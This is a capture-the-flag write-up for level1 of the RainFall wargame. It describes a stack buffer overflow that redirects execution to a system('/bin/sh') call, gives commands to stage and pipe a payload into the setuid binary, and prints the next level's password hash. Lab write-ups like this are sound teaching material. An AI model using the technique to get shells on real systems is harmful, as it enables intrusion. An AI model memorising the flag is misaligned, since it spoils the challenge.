 # level1

## Header

```bash
ssh level1@$IP -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

<hr>

## Solution

[Disassembling](./source.s) gives us important information:
There is a function called `run` that contains `system("/bin/sh")` call. <br>
To use the exploit, we need to overload the buffer in the `main` function and overwrite return address. <br>

Download or clone [payload](./payload.py) to any folder with write access (`/tmp` is a good option) and <br>
run the following command:
```bash
scp -P 4242 ./level1/payload.py level1@192.168.64.9:/tmp/payload1.py

python /tmp/payload1.py
```

This will produce payload file that should be used to exploit the binary:

```bash
level1@RainFall:~$ (cat /tmp/payload1; cat) | ./level1
Good... Wait what?
cd ../level2
ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## References

- [This is why you should pass payload to binary like that](https://security.stackexchange.com/questions/155832/system-bin-sh-exits-without-waiting-for-user-input-overthewire-narnia0-chal)